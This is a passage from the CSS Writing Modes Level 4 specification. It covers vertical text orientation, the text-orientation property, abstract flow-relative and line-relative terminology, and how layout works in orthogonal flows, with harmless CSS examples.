- **Aligning a child inline-level box within its parent.** For the `vertical-align` value of `baseline`, child is aligned to the parent by matching the parent’s dominant baseline to the same baseline in the child. (E.g. if the parent’s dominant baseline is alphabetic, then the child’s alphabetic baseline is matched to the parent’s alphabetic baseline, even if the child’s dominant baseline is something else.) For values of `sub`, `super`, `<length>`, and `<percentage>`, the baselines are aligned as for `baseline`, but the child is shifted according to the offset given by its `vertical-align` value.

  > **Example:** Given following sample markup:
  >
  > ```
  > <p><span class="outer">Ap <span class="inner">ਜੀ</span></span></p>
  > ```
  >
  > And the following style rule:
  >
  > ```
  > span.inner { font-size: .75em; }
  > ```
  >
  > The baseline tables of the parent (`.outer`) and the child (`.inner`) will not match up due to the font size difference. Since the dominant baseline is the alphabetic baseline, the child box is aligned to its parent by matching up their alphabetic baselines.
  >
  > 

  > **Example:** If we assign `vertical-align: super` to the `.inner` element from the example above, the same rules are used to align the `.inner` child to its parent; the only difference is in addition to the baseline alignment, the child is shifted to the superscript position.
  >
  > ```
  > span.inner { vertical-align: super; font-size: .75em; }
  > ```
  >
  > 

### 5.  Introduction to Vertical Text Layout {#css-writing-modes-4:intro-text-layout}

Each writing system has one or more native orientations. Modern scripts can therefore be classified into three orientational categories:

****horizontal-only****

: Scripts that have horizontal, but not vertical, native orientation. Includes: Latin, Arabic, Hebrew, Devanagari

****vertical-only****

: Scripts that have vertical, but not horizontal, native orientation. Includes: Mongolian, Phags Pa

****bi-orientational****

: Scripts that have both vertical and horizontal native orientation. Includes: Han, Hangul, Japanese Kana

A **vertical script** is one that has a native vertical orientation: i.e. one that is either vertical-only or that is bi-orientational. A **horizontal script** is one that has a native horizontal orientation: i.e. one that is either horizontal-only or that is bi-orientational. (See [Appendix A](#css-writing-modes-4:script-orientations) for a categorization of scripts by native orientation.)


In modern typographic systems, all glyphs are assigned a horizontal orientation, which is used when laying out text horizontally. To lay out vertical text, the UA needs to transform the text from its horizontal orientation. This transformation is the **bi-orientational transform**, and there are two types:

**rotate**

: Rotate the glyph from horizontal to vertical  [](../css-writing-modes-4/diagrams/glyph-right.svg)

**translate**

: Translate the glyph from horizontal to vertical  [](../css-writing-modes-4/diagrams/glyph-upright.svg)

Scripts with a native vertical orientation have an intrinsic bi-orientational transform, which orients them correctly in vertical text: most CJK (Chinese/Japanese/Korean) characters translate, that is, they are always upright. Characters from other scripts, such as Mongolian, rotate.

Scripts without a native vertical orientation can be either rotated (set sideways) or translated (set upright): the transform used is a stylistic preference depending on the text’s usage, rather than a matter of correctness. The `text-orientation` property’s `mixed` and `upright` values are provided to specify rotation vs. translation of horizontal-only text.

#### 5.1.  Orienting Text: the `text-orientation` property {#css-writing-modes-4:text-orientation}

| Field | Value |
| --- | --- |
| Name: | **text-orientation** |
| [Value:](#css-values-4:value-defs) | mixed \| upright \| sideways |
| [Initial:](#css-cascade-6:initial-values) | mixed |
| [Applies to:](#css-cascade-5:applies-to) | all elements except table row groups, rows, column groups, and columns; and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

This property specifies the orientation of text within a line. Current values only have an effect in vertical typographic modes: the property has no effect in horizontal typographic modes.

Values have the following meanings:

****mixed****

: Typographic character units from horizontal-only scripts are typeset sideways, i.e. 90° clockwise from their standard orientation in horizontal text. Typographic character units from vertical scripts are typeset with their intrinsic orientation. See [Vertical Orientations](#css-writing-modes-4:vertical-orientations) for further details.

  This value is typical for layout of dominantly vertical-script text.

****upright****

: Typographic character units from horizontal-only scripts are typeset upright, i.e. in their standard horizontal orientation. Typographic character units from vertical scripts are typeset with their intrinsic orientation and shaped normally. See [Vertical Orientations](#css-writing-modes-4:vertical-orientations) for further details.

  This value causes the used value of `direction` to be `ltr`, and for the purposes of bidi reordering, causes all characters to be treated as strong LTR.

  > **Note:** The used value, rather than the computed value, of `direction` is influenced so that `rtl` can inherit properly into any descendants (such as the contents of a horizontal inline-block) where this directional override does not apply.

****sideways****

: Causes all text to be typeset sideways, as if in a horizontal layout, but rotated 90° clockwise.

|  |  |  |
| --- | --- | --- |
| `mixed` | `upright` | `sideways` |

`text-orientation` values (`writing-mode` is `vertical-rl`)

> **Note:** Changing the value of this property may affect inline-level alignment. Refer to [Text Baselines](#css-writing-modes-4:text-baselines) for more details.

UAs may accept **sideways-right** as a value that computes to `sideways` if needed for backward compatibility reasons.

> **Note:** As of writing, major implementations do not support the automatic LTR treatment of RTL characters for `upright` typesetting. In such cases, authors may need to explicitly specify `unicode-bidi` and `direction` as in the following example:
>
> ```
> .vertical-upright-hebrew {
>     writing-mode: vertical-rl;
>     text-orientation: upright;
>     unicode-bidi: bidi-override;
>     direction: ltr;
> }
> ```

##### 5.1.1.  Vertical Typesetting and Font Features {#css-writing-modes-4:vertical-font-features}

When typesetting text in `vertical-rl` and `vertical-lr` modes, text is typeset either “upright” or “sideways” as defined below:

****upright typesetting****

: Typographic character units are individually typeset upright in vertical lines with vertical font metrics. The UA must synthesize vertical font metrics for fonts that lack them. (This specification does not define heuristics for synthesizing such metrics.) Additionally, font features (such as alternate glyphs and other transformation) intended for use in vertical typesetting must be used. (E.g. the OpenType `vert` feature must be enabled.) Furthermore, characters from horizontal cursive scripts (such as Arabic) are shaped in their isolated forms when typeset upright.

  > **Note:** that even when typeset “upright”, some glyphs should appear rotated. For example, dashes and enclosing punctuation should be oriented relative to the inline axis. In OpenType, this is typically handled by glyph substitution, although not all fonts have alternate glyphs for all relevant codepoints. (East Asian fonts usually provide alternates for East Asian codepoints, but Western fonts typically lack any vertical typesetting features and East Asian fonts typically lack vertical substitutions for Western codepoints.) Unicode published draft data on which characters should appear sideways as the SVO property in [this data file](http://www.unicode.org/reports/tr50/tr50-6.Orientation.txt); however, this property has been abandoned for the current revision of [UAX50].

  Typographic character units which are classified as `Tr` or `Tu` in [UAX50] are expected to have alternate glyphs or positioning for typesetting upright in vertical text. In the case of `Tr` characters, if such vertical alternate glyphs are missing from the font, the UA *may wish to* [RFC6919] (but is not expected to) synthesize the missing glyphs by typesetting them sideways etc.

****sideways typesetting****

: Typographic character units typeset as a run rotated 90° clockwise from their upright orientation, using horizontal metrics and composition, and vertical typesetting features are not used. However, if the font has features meant to be enabled for sideways text that is typeset in vertical lines (e.g. to adjust brush stroke angles or alignment), those features are used. (An example of such a feature would be the proposed [`vrtr` OpenType font feature](http://blogs.adobe.com/CCJKType/2013/08/tale-of-three-features.html).)

##### 5.1.2.  Mixed Vertical Orientations {#css-writing-modes-4:vertical-orientations}

[UAX50] defines the `Vertical_Orientation` property for the default glyph orientation of mixed-orientation vertical text. When `text-orientation` is `mixed`, the UA must determine the orientation of each typographic character unit by its `Vertical_Orientation` property: typesetting it upright if its orientation property is `U`, `Tu`, or `Tr`; or typesetting it sideways (90° clockwise from horizontal) if its orientation property is `R`.

> **Note:** that UAX50 does not handle scripts that rotate -90° in vertical contexts, so they will not be typeset correctly with `mixed` orientation. Use `sideways-lr` for such scripts.

> **Note:** The OpenType `vrt2` feature, which is intended for mixed-orientation typesetting, is not used by CSS. It delegates the responsibility for orienting glyphs to the font designer. CSS instead dictates the orientation through [UAX50] and orients glyphs by typesetting them sideways or upright as appropriate.

##### 5.1.3.  Obsolete: the SVG1.1 `glyph-orientation-vertical` property {#css-writing-modes-4:glyph-orientation}

| Field | Value |
| --- | --- |
| Name: | **glyph-orientation-vertical** |
| [Value:](#css-values-4:value-defs) | auto \| 0deg \| 90deg \| 0 \| 90 |
| [Initial:](#css-cascade-6:initial-values) | n/a |
| [Applies to:](#css-cascade-5:applies-to) | n/a |
| [Inherited:](#css-cascade-5:inherited-property) | n/a |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | n/a |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | n/a |

Some SVG user agents will need to process documents containing the obsolete SVG `glyph-orientation-vertical` property, which was defined to accept an `auto` keyword as well as `<angle>` and `<integer>` values representing multiples of 90°. While supporting this property is *optional*, UAs that do so must alias `glyph-orientation-vertical` as a shorthand of `text-orientation` as follows:

| Shorthand `glyph-orientation-vertical` value | Longhand `text-orientation` value |
| --- | --- |
| `auto` | `mixed` |
| `0deg` | `upright` |
| `0` | `upright` |
| `90deg` | `sideways` |
| `90` | `sideways` |

UAs must ignore and treat as invalid any other values for the `glyph-orientation-vertical` property; and treat as invalid the `glyph-orientation-horizontal` property in its entirety.

> **Note:** The `180deg` and `270deg` values, the radian and gradian values, and the `glyph-orientation-horizontal` property are not mapped because they have no known use cases nor significant amounts of dependent content, and are therefore not part of CSS, and have been likewise dropped from SVG.

### 6.  Abstract Box Terminology {#css-writing-modes-4:abstract-box}

CSS2.1 [CSS2] defines the box layout model of CSS in detail, but only for the `horizontal-tb` writing mode. Layout is analogous in writing modes other than `horizontal-tb`; however directional and dimensional terms in CSS2.1 must be abstracted and remapped appropriately.

This section defines abstract directional and dimensional terms and their mappings in order to define box layout for other writing modes, and to provide terminology for future specs to define their layout concepts abstractly. (The next section explains how to apply them to CSS2.1 layout calculations and how to handle [orthogonal flows](#css-writing-modes-4:orthogonal-flows).) Although they derive from the behavior of text, these abstract mappings exist even for boxes that do not contain any line boxes: they are calculated directly from the values of the `writing-mode` and `direction` properties.

There are three sets of directional terms in CSS:

****physical****

: Interpreted relative to the page, independent of writing mode. The **physical directions** are **left**, **right**, **top**, and **bottom**.

****[flow-relative](#css-writing-modes-4:logical-directions)****

: Interpreted relative to the flow of content. The flow-relative directions are start and end, or block-start, block-end, inline-start, and inline-end if the dimension is also ambiguous.

****[line-relative](#css-writing-modes-4:line-directions)****

: Interpreted relative to the orientation of the line box. The line-relative directions are line-left, line-right, line-over, and line-under.

The **physical dimensions** are **width** and **height**, which correspond to measurements along the **x-axis** (**horizontal dimension**) and **y-axis** (**vertical dimension**), respectively. [Abstract dimensions](#css-writing-modes-4:abstract-axes) are identical in both flow-relative and line-relative terms, so there is only one set of these terms.


Physical & flow-relative terms as applicable to typical English text layout


Physical & flow-relative terms as applicable to vertical Chinese text layout

> **Note:** [CSS-FLEXBOX-1] also defines [flex-relative terms](#css-flexbox-2:box-model), which are used in describing flex layout.

#### 6.1.  Abstract Dimensions {#css-writing-modes-4:abstract-axes}

The **abstract dimensions** are defined below:

****block dimension****

: The dimension perpendicular to the flow of text within a line, i.e. the vertical dimension in horizontal writing modes, and the horizontal dimension in vertical writing modes.

****inline dimension****

: The dimension parallel to the flow of text within a line, i.e. the horizontal dimension in horizontal writing modes, and the vertical dimension in vertical writing modes.

****block axis****

: The axis in the block dimension, i.e. the vertical axis in horizontal writing modes and the horizontal axis in vertical writing modes.

****inline axis****

: The axis in the inline dimension, i.e. the horizontal axis in horizontal writing modes and the vertical axis in vertical writing modes.

****block size** **logical height****

: A measurement in the block dimension: refers to the physical height (vertical dimension) in horizontal writing modes, and to the physical width (horizontal dimension) in vertical writing modes.

****inline size** **logical width****

: A measurement in the inline dimension: refers to the physical width (horizontal dimension) in horizontal writing modes, and to the physical height (vertical dimension) in vertical writing modes.

#### 6.2.  Flow-relative Directions {#css-writing-modes-4:logical-directions}

The **flow-relative directions**, block-start, block-end, inline-start, and inline-end, are defined relative to the flow of content on the page. In an LTR `horizontal-tb` writing mode, they correspond to the top, bottom, left, and right directions, respectively. They are defined as follows:

****block-start****

: The side that comes earlier in the block flow direction, as determined by the `writing-mode` property: the physical top in `horizontal-tb` mode, the right in `vertical-rl`, and the left in `vertical-lr`.

****block-end****

: The side opposite block-start.

****inline-start****

: The side from which text of the inline base direction would start. For boxes with a used `direction` value of `ltr`, this means the line-left side. For boxes with a used `direction` value of `rtl`, this means the line-right side.

****inline-end****

: The side opposite start.

Where contextually unambiguous or encompassing both meanings, the terms **start** and **end** are used in place of block-start/inline-start and block-end/inline-end, respectively.

> **Note:** that while determining the block-start and block-end sides of a box depends only on the `writing-mode` property, determining the inline-start and inline-end sides of a box depends not only on the `writing-mode` property but also the `direction` property.

#### 6.3.  Line-relative Directions {#css-writing-modes-4:line-directions}

The **line orientation** determines which side of a line box is the logical “top” (ascender side). It is given by the `writing-mode` property. Usually the line-relative “top” corresponds to the block-start side, but this is not always the case: in Mongolian typesetting (and thus by default in `vertical-lr` writing modes), the line-relative “top” corresponds to the block-end side. Hence the need for distinct terminology.


A primarily Mongolian document, such as the one above, is written in vertical lines stacking left to right, but lays its Latin text with the tops of the glyphs towards the right. This makes the text run in the same inline direction as Mongolian (top-to-bottom) and face the same direction it does in other East Asian layouts (which have vertical lines stacking right to left), but the glyphs' tops are facing the bottom of the line stack rather than the top, which in an English paragraph would be upside-down. (See this [Diagram of Mongolian Text Layout](../css-writing-modes-4/diagrams/text-flow-vectors-lr-reverse.svg).)

In addition to a line-relative “top” and “bottom” to map things like 'vertical-align: top', CSS also needs to refer to a line-relative “left” and “right” in order to map things like `text-align: left`. Thus there are four **line-relative directions**, which are defined relative to the line orientation as follows:

****over** or **line-over****

: Nominally the side that corresponds to the ascender side or “top” side of a line box. (The side overlines are typically drawn on.)

****under** or **line-under****

: Opposite of over: the line-relative “bottom” or descender side. (The side underlines are typically drawn on.)

****line-left****

: The line-relative "left" side of a line box, which is nominally the side from which LTR text would start.

****line-right****

: The line-relative "right" side of a line box, which is nominally the side from which RTL text would start. (Opposite of line-left.)

See the [table below](#css-writing-modes-4:logical-to-physical) for the exact mappings between physical and line-relative directions.

[](../css-writing-modes-4/diagrams/line-orient-up.svg)

Line orientation in `horizontal-tb`

[](../css-writing-modes-4/diagrams/line-orient-right.svg)

Line orientation in `vertical-rl`, `vertical-lr`, and `sideways-rl`

[](../css-writing-modes-4/diagrams/line-orient-left.svg)

Line orientation in `sideways-lr`

> **Note:** 
>
> Vertical baseline of an upright glyph
>
> When `text-orientation: upright`, the baseline is still vertical, and the vertical baseline in the font is used, or the vertical baseline is synthesized if the font does not provide.
>
> Since the baseline is vertical, the definitions for `mixed` or `sideways` above still apply; i.e., line-over is on right, and line-under is on left.
>
> This is in line with font systems such as OpenType which defines the ascender on right and the descender on left in their vertical metrics.

#### 6.4.  Abstract-to-Physical Mappings {#css-writing-modes-4:logical-to-physical}

The following table summarizes the abstract-to-physical mappings (based on the *used* `direction` and `writing-mode`):

| `writing-mode` | `horizontal-tb` | `vertical-rl`, `sideways-rl` | `vertical-lr` | `sideways-lr` |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| `direction` | `ltr` | `rtl` | `ltr` | `rtl` | `ltr` | `rtl` | `ltr` | `rtl` |
| block-size | height | width |  |  |  |  |  |  |
| inline-size | width | height |  |  |  |  |  |  |
| block-start | top | right | left |  |  |  |  |  |
| block-end | bottom | left | right |  |  |  |  |  |
| inline-start | left | right | top | bottom | top | bottom | bottom | top |
| inline-end | right | left | bottom | top | bottom | top | top | bottom |
| over | top | right | left |  |  |  |  |  |
| under | bottom | left | right |  |  |  |  |  |
| line-left | left | top | bottom |  |  |  |  |  |
| line-right | right | bottom | top |  |  |  |  |  |

> **Note:** The used `direction` depends on the computed `writing-mode` and `text-orientation`: in vertical writing modes, a `text-orientation` value of `upright` forces the used `direction` to `ltr`.

### 7.  Abstract Box Layout {#css-writing-modes-4:abstract-layout}

#### 7.1.  Principles of Layout in Vertical Writing Modes {#css-writing-modes-4:vertical-layout}

CSS box layout in vertical writing modes is analogous to layout in the horizontal writing modes, following the principles outlined below:

Layout calculation rules (such as those in CSS2.1, Section 10.3) that apply to the horizontal dimension in horizontal writing modes instead apply to the vertical dimension in vertical writing modes. Likewise, layout calculation rules (such as those in CSS2.1, Section 10.6) that apply to the vertical dimension in horizontal writing modes instead apply to the horizontal dimension in vertical writing modes. Thus:

- Layout rules that refer to the width use the height instead, and vice versa.
- Layout rules that refer to the `*-left` and `*-right` box properties (border, margin, padding, positioning offsets) use `*-top` and `*-bottom` instead, and vice versa, mapping the horizontal writing-mode rules of CSS2.1 into vertical writing-mode rules using the flow-relative directions. The side of the box these properties apply to doesn’t change: only which values are inputs to which layout calculations changes. The `margin-left` property still affects the lefthand margin, for example; however in a `vertical-rl` writing mode it takes part in margin collapsing in place of `margin-bottom`.
- Layout rules that depend on the `direction` property to choose between left and right (e.g. overflow, overconstraint resolution, the initial value for `text-align`, table column ordering) are abstracted to the start and end sides and applied appropriately.

> **Example:** For example, in vertical writing modes, table rows are vertical and table columns are horizontal. In a `vertical-rl` `mixed` `rtl` table, the first column would be on the bottom (the inline-start side), and the first row on the right (the block-start side). The table’s `margin-right` and `margin-left` would collapse with margins before (on the right) and after (on the left) the table, respectively, and if the table had `auto` values for `margin-top` and `margin-bottom` it would be centered vertically within its block flow.
>
> [](../css-writing-modes-4/diagrams/vertical-table.svg)
>
> Table in `vertical-rl` RTL writing mode

For features such as text alignment, floating, and list marker positioning, that primarily reference the left or right sides of the line box or its longitudinal parallels and therefore have no top or bottom equivalent, the line-left and line-right sides are used as the reference for the left and right sides respectively.

Likewise for features such as underlining, overlining, and baseline alignment (the unfortunately-named `vertical-align`), that primarily reference the top or bottom sides of the linebox or its transversal parallels and therefore have no left or right equivalent, the line-over and line-under sides are used as the reference for the top and bottom sides respectively.

The details of these mappings are provided below.

#### 7.2.  Dimensional Mapping {#css-writing-modes-4:dimension-mapping}

Certain properties behave logically as follows:

- The first and second values of the `border-spacing` property represent spacing between columns and rows respectively, not necessarily the horizontal and vertical spacing respectively. [CSS2]
- The `line-height` property always refers to the logical height. [CSS2]

The height properties (`height`, `min-height`, and `max-height`) refer to the physical height, and the width properties (`width`, `min-width`, and `max-width`) refer to the physical width. However, the rules used to calculate box dimensions and positions are logical.

For example, the calculation rules in [CSS2.1 Section 10.3](#css2:Computing_widths_and_margins) are used for the inline dimension measurements: they apply to the inline size (which could be either the physical width or physical height) and to the inline-start and inline-end margins, padding, and border. Likewise the calculation rules in [CSS2.1 Section 10.6](#css2:Computing_heights_and_margins) are used in the block dimension: they apply to the block size and to the block-start and block-end margins, padding, and border. [CSS2]

As a corollary, percentages on the margin and padding properties, which are always calculated with respect to the containing block width in CSS2.1, are calculated with respect to the *inline size* of the containing block in CSS3.

#### 7.3.  Orthogonal Flows {#css-writing-modes-4:orthogonal-flows}

> **Note:** We appreciate feedback in general, but we are particularly interested in feedback on this particularly complicated section.

When a box has a different `writing-mode` from its containing block two cases are possible:

- The two writing modes are parallel to each other. (For example, `vertical-rl` and `vertical-lr`).
- The two writing modes are perpendicular to each other. (For example, `horizontal-tb` and `vertical-rl`).

When a box has a writing mode that is perpendicular to its containing block it is said to be in, or establish, an **orthogonal flow**.

To handle this case, CSS layout calculations are divided into two phases: sizing a box, and positioning the box within its flow.

- In the sizing phase—calculating the width and height of the box—the dimensions of the box and the containing block are mapped to the inline size and block size and calculations are performed accordingly using the writing mode of the box establishing the orthogonal flow.
- In the positioning phase—calculating the positioning offsets, margins, borders, and padding—the dimensions of the box and its containing block are mapped to the inline size and block size and calculations are performed according to the writing mode of the *containing block* of the box establishing the orthogonal flow.

Since `auto` margins are resolved consistent with the containing block’s writing mode, a box establishing an orthogonal flow can, once sized, be aligned or centered within its containing block just like other block-level boxes by using auto margins.

> **Example:** 
>
> An example of orthogonal flow
>
> For example, if a vertical block is placed inside a horizontal block, then when calculating the physical height (which is the inline size) of the child block the physical height of the parent block is used as the child’s containing block inline size, even though the physical height is the block size, not the inline size, of the parent block.
>
> On the other hand, because the containing block is in a horizontal writing mode, the vertical margins on the child participate in margin-collapsing, even though they are in the inline-axis of the child, and horizontal auto margins will expand to fill the containing block, even though they are in the block-axis of the child.

> **Note:** that this section requires that when a child box auto-sized in its block axis establishes an orthogonal flow, the used block size of the child is calculated to fit its content; and this resulting content-based size is used as input to the inline-axis min-content size and max-content size of the parent.
>
> This means that when applying shrink-to-fit formula to a box such as an inline-block, float, or table-cell, if its child establishes an orthogonal flow, the calculation dependency must be changed so that the sizing phase of the child runs first and its used block size becomes an input to the inline-size shrink-to-fit formula of the parent.

##### 7.3.1.  Available Space in Orthogonal Flows {#css-writing-modes-4:orthogonal-auto}

It is common in CSS for a containing block to have a definite inline size, but not a definite block size. This typically happens in CSS2.1 when a containing block has an `auto` height, for example: its width is given by the calculations in [10.3.3](#css2:blockwidth), but its block size depends on its contents. In such cases the available inline space is defined as the inline size of the containing block; but the available block space, which would otherwise be the block size of the containing block, is infinite.

Putting a box in an orthogonal flow can result in the opposite: for the box’s available block space to be definite, but its available inline space to be indefinite. In such cases a percentage of the containing block’s inline size cannot be defined, and inline axis computations cannot be resolved. In these cases, an additional constraint is used as a fallback in place of the available inline space for calculations that require a definite available inline space—​the smallest of

- the size represented by the containing block’s inner max size (if that is fixed) floored by its inner min size (if that is fixed)
- the nearest ancestor scrollport’s inner size if that is fixed, else / capped by its inner max size if that is fixed, floored by its inner min size if that is fixed
- the initial containing block’s size

See [CSS3-SIZING] for further details on CSS sizing terminology and concepts.

##### 7.3.2.  Auto-sizing Block Containers in Orthogonal Flows {#css-writing-modes-4:auto-multicol}

If a box establishing an orthogonal flow is either a block container or a multi-column container, for the case where the box’s inline size is `auto`:

1. **Calculate the used `column-width`:**

  - If `column-count` and `column-width` are both `auto`, use the shrink-to-fit formula `min(max-content, max(min-content, constraint))`, where:

    ***min-content***

    : the min-content inline size of the box

    ***max-content***

    : the max-content inline size of the box

    ***constraint***

    : the inline-axis size that would stretch fit into to the smallest of

  - the available space: the containing block’s size if that is fixed, else the size represented by the containing block’s inner max size (if that is fixed) floored by its inner min size (if that is fixed)
  - the nearest ancestor scrollport’s inner size if that is fixed, else / capped by its inner max size if that is fixed, floored by its inner min size if that is fixed
  - the initial containing block’s size

    > **Note:** 
    >
    > **Note that this requirement automatically triggers multi-column flow on all block containers.** This is so that overflowing content, instead of continuing off the side of the containing block, is wrapped into columns in the flow direction of the containing block, thus avoiding T-shaped documents. Authors can control the inline size of these columns by setting `column-width`, or disable this behavior by setting the inline size property to a non-`auto` value such as `max-content`.
  - If `column-count` is not `auto` and `column-width` is `auto`, calculate the used `column-width` with the same formula, except replace *constraint* with *constraint* − (`column-count` − 1) × `column-gap`.
  - If `column-count` and `column-width` are both non-`auto`, the used `column-width` is the computed `column-width`. (This is not recommended as it can cause overflow; instead it is better to set the `column-width` and a max-block-size.)
2. **Calculate the used column length:** If the computed block size is `auto` and the specified value of at least one of `column-count` and `column-width` was `auto`, use the box’s block size (if that is definite), else the stretch-fit block size of the box (if that is definite), else the box’s max-content block size. Otherwise follow the normal rules for sizing a multi-column container.

   > **Issue:** Should we factor in the box’s min-content block size in this formula, so that e.g. a large image will not overflow the box, but cause the box to overflow the containing block?
3. **Calculate the used `column-count`:** If the computed `column-count` is `auto`, then the used `column-count` follows from filling the resulting multi-column layout with the box’s content.

The used inline size of the resulting multi-column container is then calculated:

1. If the content neither line-wraps nor fragments within the multi-column container, then the used inline size is the max-content inline size of the box’s contents. This criteria gives the shrink-to-fit behavior for short orthogonal flow contents without making a large blank space.
2. Otherwise it is calculated from the used `column-width`, `column-count`, and `column-gap`.

The used block size of the box is either the used column length (if multiple columns were used) or the max-content block size of the content (if only one column was used). If the UA does not support CSS Multi-column Layout [CSS3COL], the UA may instead calculate the box’s block size assuming infinite available block space, thus laying out its contents into a single column. (Note that this can, however, result in content that is clipped or otherwise inaccessible if it overflows its containing block.)

> **Note:** The automatic triggering of multi-column flow is at-risk and may be dropped during CR.

##### 7.3.3.  Auto-sizing Other Orthogonal Flow Roots {#css-writing-modes-4:orthogonal-layout}

In order to limit the length of lines, block containers have special auto-sizing behavior that triggers multi-column layout when their available inline space is infinite (which typically occurs when they establish an orthogonal flow).

For calculating the automatic inline size for other display types when the available inline space is infinite, if the box is block-level or the formatting context otherwise calculates an automatic inline size using its max-content size, use the same formula used for the block containers’ `column-width` (see [above](#css-writing-modes-4:auto-multicol)) in place of that max-content size: `min(max-content, max(min-content, constraint))`.

> **Example:** For example, a table or flex container establishing an orthogonal flow is laid out into its given available space. However, if its available inline space is infinite (as it when placed into a block formatting context), then assuming no intervening scroll container, this effectively lays the box out at its max-content size, clamped by the initial containing block’s size, ensuring that its inline size still fits within the viewport or page area.

> **Note:** If the automatic inline size is a fit-content size (for example, in a grid item) this can apply multiple maximum constraints on the max-content size.

> **Note:** **This can result in T-shaped documents** if the orthogonal content is too long to fit within its containing block.

##### 7.3.4.  Fragmenting Orthogonal Flows {#css-writing-modes-4:orthogonal-pagination}

*This section is informative.*

With regards to fragmentation, the rules in CSS2.1 still hold in vertical writing modes and orthogonal flows: break opportunities do not occur inside line boxes, only between them. UAs that support [CSS3COL] may break in the (potentially zero-width) gap between columns, however.

Note that if content spills outside the pagination stream established by the root element, the UA is not required to print such content. Authors wishing to mix writing modes with long streams of text are thus encouraged to use CSS columns to keep all content flowing in the document’s pagination direction.

> **Note:** In other words, if your document would require two scrollbars on the screen it probably won’t all print. Fix your layout, e.g. by using [columns](#css-multicol-2) so that it all scrolls (and therefore paginates) in one direction if you want to make sure it’ll all print. T-shaped documents tend not to print well.

#### 7.4.  Flow-Relative Mappings {#css-writing-modes-4:logical-direction-layout}

Flow-relative directions are calculated with respect to the writing mode of the *containing block* of the box and used to abstract layout rules related to the box properties (margins, borders, padding) and any properties related to positioning the box within its containing block (`float`, `clear`, `top`, `bottom`, `left`, `right`, `caption-side`). For inline-level boxes, the writing mode of the *parent box* is used instead. (The left/right/top/bottom-named properties and values themselves are still mapped physically; with a special exception made for `caption-side`, whose `top`/`top-outside` and `bottom`/`bottom-outside` values are associated to the block-start and block-end sides of the table, respectively.)

For example, the margin that is dropped when a box’s inline dimension is [over-constrained](#css2:blockwidth) is the end margin as determined by the writing mode of the containing block.

The [margin collapsing rules](#css2:collapsing-margins) apply exactly with the *block-start margin* substituted for the top margin and the *block-end margin* substituted for the bottom margin. Similarly the block-start padding and border are substituted for the top padding and border, and the block-end padding and border substituted for the bottom padding and border. Note this means only block-start and block-end margins ever collapse.

Flow-relative directions are calculated with respect to the writing mode of the box and used to abstract layout related to the box’s contents:

- The initial value of the `text-align` property aligns to the start edge of the line box.
- The `text-indent` property indents from the start edge of the line box.
- For tables, the ordering of columns begins on the inline-start side of the table, and the ordering of rows begins on the block-start side of the table.

#### 7.5.  Line-Relative Mappings {#css-writing-modes-4:line-mappings}

The line-relative directions are over, under, line-left, and line-right. In an LTR `horizontal-tb` writing mode, they correspond to the top, bottom, left, and right directions, respectively.

The line-right and line-left directions are calculated with respect to the writing mode of the box and used to interpret the `left` and `right` values of the following properties:

- the `text-align` property [CSS2]

The line-right and line-left directions are calculated with respect to the writing mode of the *containing block* of the box and used to interpret the `left` and `right` values of the following properties:

- the `float` property [CSS2]
- the `clear` property [CSS2]
- the `caption-side` property [CSS2]

The over and under directions are calculated with respect to the writing mode of the box and used to define the interpretation of the "top" (over) and "bottom" (under) sides of the line box as follows:

- For the `vertical-align` property, the "top" of the line box is its over edge; the "bottom" of the line box is its under edge. Positive length and percentage values shift the baseline towards the line-over edge. [CSS2]
- For the `text-decoration` property, the underline is drawn on the under side of the text; the overline is drawn on the over side of the text. [CSS2] Note that the CSS Text Decoration Module defines this in more detail and provides additional controls for controlling the position of underlines and overlines. [CSS3-TEXT-DECOR]

#### 7.6.  Purely Physical Mappings {#css-writing-modes-4:physical-only}

The following values are purely physical in their definitions and do not respond to changes in writing mode:

- the `rect()` notation of the `clip` property [CSS-MASKING-1]
- the background properties [CSS2] [CSS3BG]
- the border-image properties [CSS3BG]
- the offsets of the `box-shadow` and `text-shadow` properties

### 8.  The Principal Writing Mode {#css-writing-modes-4:principal-flow}

The **principal writing mode** of the document is determined by the used `writing-mode`, `direction`, and `text-orientation` values of the root element. This writing mode is used, for example, to determine the direction of scrolling and the default page progression direction.

As a special case for handling HTML documents, if the root element has a `body` child element [HTML] whose `display` value is not `none`, the used value of the of `writing-mode` and `direction` properties on root element are taken from the computed `writing-mode` and `direction` of the first such child element instead of from the root element’s own values. The UA *may* also propagate the value of `text-orientation` in this manner. Note that this does not affect the computed values of `writing-mode`, `direction`, or `text-orientation` of the root element itself.

